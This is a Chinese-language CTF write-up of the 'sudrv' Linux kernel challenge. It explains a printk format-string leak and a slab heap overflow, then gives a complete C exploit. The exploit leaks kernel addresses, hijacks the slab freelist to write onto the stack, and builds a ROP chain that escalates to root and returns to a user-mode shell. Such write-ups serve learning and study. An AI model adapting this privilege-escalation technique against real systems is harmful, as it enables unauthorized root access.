





# sudrv

自己做出来的第二个 kernel 题目，也是在网上看了很多很多很多东西

## 前置知识

首先是内核堆块的分配策略

slab 机制见[这篇文章](https://blog.csdn.net/lukuen/article/details/6935068)

简单的说我这边看到的就是，分配的堆块大小是固定的某些值，这些值通常是2的n次方根，并且将链表的零散堆块清空后，再分配就是再连续的一整个大块里面，也就是说，你现在申请的地址下面可能就有指向下一个待分配堆块的指针。

然后是堆的格式化字符串

同用户态，内核的 printk 也会产生格式化字符串漏洞，并且在最开始启动内核时，有如下一些信息打印出来



因此我们可以直接看到 printk 输出的数据，也可以通过dmesg查看数据

## 漏洞点

首先是格式化字符串



然后是 write 没有限制长度，导致可以实现堆溢出



## 漏洞利用

关于格式化字符串利用，内核里可以通过 %llx 来打印出内容，是直接显示在终端的，但是通过 dmesg 也可以再次查看，那么我们可以重定向一下保存到文件里，再读文件将 leak 出来的 内容弄出来就行。

之后就是同用户态一样，算偏移，找gadget

然后就是堆利用的部分，和用户态的 tcache 类似，修改指针可以直接申请到该内存，并且指针还是连续分布的（，因此堆溢出就可以实现任意地址申请

那么我们申请的地方就可以是栈，申请到 调用函数的返回地址就行了

最后是 rop 链的构造，起初我也以为可以直接照搬之前的 rop 链，但是有些 gadget 居然是不一样的，因此重新构造了一些，而且前面还需要执行 signal(SIGSEGV, shell); 在用户态执行 shell ，主要是由于内核开了 KPTI 

[KPTI - Kernel Page Table Isolation - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/kernel-mode/defense/isolation/user-kernel/kpti/)

```shell
dmesg | grep 'page table'
```



这边提一下泄露出内核地址后，可以通过如下命令得到内核的基地址，然后得到偏移

```shell
cat  /proc/kallsyms | tail -n +1 | head -n 10
```



## 最终exp

比较稳定 getshell

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

size_t commit_creds = 0x81410;
size_t prepare_kernel_cred = 0x81790;
size_t pop_rdi_ret = 0x1388;
size_t pop_rdx_ret = 0x44f17;
size_t pop_rcx_ret = 0x674ff;
size_t pop_rbp_ret = 0x4ee;

size_t mov_rdi_rax_x_ret = 0x9e2959;
size_t mov_rdi_rax_y_ret = 0x1a2cb;

size_t swapgs_popfq_ret = 0xa00d5a;
size_t iretq_ret = 0x21762;

size_t vmlinux_base = 0;
size_t stack_addr = 0;
size_t user_cs, user_ss, user_rflags, user_sp;

void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    info("status saved!",0);
}

void get_address(){
    FILE* fd = fopen("/tmp/leak", "r");
    if(!fd){
        error("Cannot open file /tmp/leak");
    }
    float leak_f = 0;
    char leak_buf[0x100];
    char buf[0x100];
    size_t num = 0;
    size_t leak = 0;
    
    while(fgets(buf, 0x50, fd)){
        if (strstr(buf , "vmlinux_leak")){
            sscanf(buf , "%s%f%s%s%lx" , leak_buf ,&leak_f,leak_buf,leak_buf , &leak);
            vmlinux_base =leak - 0x1c827f;
        }
        if (strstr(buf , "stack_leak")){
            sscanf(buf , "%s%f%s%s%lx" , leak_buf ,&leak_f,leak_buf,leak_buf , &leak);
            stack_addr = leak ;
        }
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;
    pop_rbp_ret += vmlinux_base;

    mov_rdi_rax_y_ret += vmlinux_base;

    swapgs_popfq_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}

// leak:deadbeef,40,40,b,0,ffffffff989c827f,c5d29dd937432d00,2

int main(){
    
    char buf[0x100] = "%llx,%llx,%llx,%llx,%llx,\nvmlinux_leak: 0x%llx\n,%llx,%llx,%llx,\nstack_leak: 0x%llx\n";
    size_t rop[0x600] = {0};
    int i =0;

    save_status();
    signal(SIGSEGV, shell);

    int fd = open("/dev/meizijiutql" , 2);

    ioctl(fd ,0x73311337 , 0xfff );
    write(fd ,buf , sizeof(buf) );
    ioctl(fd ,0xDEADBEEF );

    system("dmesg > /tmp/leak");
    get_address();
    set_offset();

    info("vmlinux_base" , vmlinux_base);
    info("stack_addr" , stack_addr);

    for (int i =0;i<0x100 ; ++i){
        ioctl(fd ,0x73311337 , 0xfff );
    }

    size_t write_ret = stack_addr - 0x88 ;
    size_t buffer[0x1010/8] ;

    buffer[0] = 0x114514 ;
    buffer[0x1000/8] = write_ret ;

    write(fd ,buffer , sizeof(buffer));
    
    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rcx_ret;
    rop[i++] = 0;
    rop[i++] = mov_rdi_rax_y_ret;
    rop[i++] = commit_creds;

    rop[i++] = swapgs_popfq_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    ioctl(fd ,0x73311337 , 0xfff );
    ioctl(fd ,0x73311337 , 0xfff );

    // ioctl(fd ,0xDEADBEEF );

    write(fd , rop ,0x100);

}

```

